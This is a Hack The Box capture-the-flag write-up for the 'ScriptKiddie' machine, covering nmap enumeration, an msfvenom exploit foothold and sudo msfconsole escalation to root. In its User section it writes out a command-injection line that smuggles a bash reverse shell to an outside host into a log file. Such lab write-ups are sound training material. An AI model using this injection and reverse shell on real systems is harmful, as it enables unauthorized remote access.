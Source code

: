 ```yaml
---
title: "[HTB] Machine: ScriptKiddie"
description: "[HTB] Machine: ScriptKiddie"
date: 2023-07-09
menu:
  sidebar:
    name: "[HTB] Machine: ScriptKiddie"
    identifier: htb-machine-scriptkiddie
    parent: htb-machines-linux
    weight: 10
hero: images/scriptkiddie.png
tags: ["HTB", "msfvenom", "command-injection", "irb", "msfconsole"]
---
```


# ScriptKiddie
## Enumeration
- ```Nmap```
```
└─$ nmap -sC -sV -Pn 10.10.10.226  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-10 19:55 BST
Nmap scan report for 10.10.10.226 (10.10.10.226)
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c656bc2dfb99d627427a7b8a9d3252c (RSA)
|   256 b9a1785d3c1b25e03cef678d71d3a3ec (ECDSA)
|_  256 8bcf4182c6acef9180377cc94511e843 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.63 seconds

```
- Web server

![](./images/1.png)

## Foothold
- I tried different payloads for command injection, but none of them worked
  - So I checked if there are any exploit for any of the services running

![](./images/2.png)

- But we don't have a version of the `mfsvenom`
  - So let's try the exploit anyway
  - We can generate payload using `msfconsole` or python script
  - I chose `msfconsole` since it was easier to do

![](./images/3.png)

![](./images/4.png)

- Generate payload
  - Upload it and launch it

![](./images/5.png)

![](./images/6.png)

![](./images/7.png)

## User
- We can read `pwn`'s directory
  - Upon scanning we see `scanlosers.sh` script, which looks like automated job since it saves output to `recon` folder
  - We can edit the script
  - But we need to find the format of the lines in the input file `/home/kid/logs/hackers`

![](./images/8.png)

- If we grep for `hackers` in `kid`'s home directory we find the source code for the `app` and the lines of code responsible for saving the logs

![](./images/9.png)

![](./images/10.png)

- Looks like the format is `[2023-07-10 21:18:21.342176] 10.10.16.12`
  - But the file is empty, which means it get cleaned since I definitely tried command injections

![](./images/11.png)

- Let's try injecting the commands to the log file
  - The script cuts out the 3 column and supplies it to `nmap`, so we add 'a a 127.0.0.1' to pass the check
  - Then we have our command and comment out the rest of the command with `#`

![](./images/12.png)

- Let's get reverse shell
  - `echo "a a 127.0.0.1;bash -c 'bash -i >& /dev/tcp/10.10.16.12/7777 0>&1' #" > hackers`

![](./images/13.png)

## Root
- `pwn` has `sudo` rights

![](./images/14.png)

- Follow [GTFOBins](https://gtfobins.github.io/gtfobins/msfconsole/) to get a `root`

![](./images/15.png)

![](./images/16.png)
